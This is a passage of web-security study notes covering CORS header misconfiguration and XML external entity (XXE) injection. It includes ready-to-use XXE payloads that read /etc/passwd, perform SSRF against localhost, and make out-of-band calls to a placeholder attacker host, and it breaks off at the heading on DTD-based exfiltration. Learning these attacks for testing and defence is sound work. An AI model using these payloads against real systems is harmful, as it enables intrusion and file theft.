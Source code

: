 CORS are only present due to misconfigurations, you can use these headers to configure it correctly (and also use your brain again):
   -	Access-Control-Allow-Origin: 
	   -	Allow content from listed websites
	   -	Avoid null value => cab ve exploit as we see above
	   -	Avoid local things as you don't protect your colleagues actions


## XML external entity injection

XXE is a specific attack against XML application. It can allow an attacker to view files, interact directly with the backend, or other application related to the corrupt one. This attack is perform as an initial vector for SSRF. To check for the vulnerability you will have to intercept the request and change the post data. Post data are used in 99.99% for XML applications.

#### Basics

- External entities to retrieve files

	Simple payload to retrieve a file from the filesystem
	
	```xml
	<!DOCTYPE test \[ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> \]>
	```
		

- Perform SSRF attacks

	As the previous one simple payload, you can adapt the IP by using URL to fetch APIs or whatever
	
	```xml
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "http://127.0.0.1/"> \]>
	```
	

#### Blind XXE

- Out-of-band interaction

	In this attack you will use the same payload as for the SSRF combined attack, but you will use your IP to check for inbound traffic.
	
	```xml
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "YOUR_DOMAIN_OR_IP"> \]>
	```
	
- Out-of-band interaction via XML parameter entities

	Same principle and a similar payload but two different test
	
	```xml
	<!DOCTYPE stockCheck \[<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR_DOMAIN_OR_IP"> %xxe; \]>
	```
	

- Exfiltrate data using a malicious external DTD
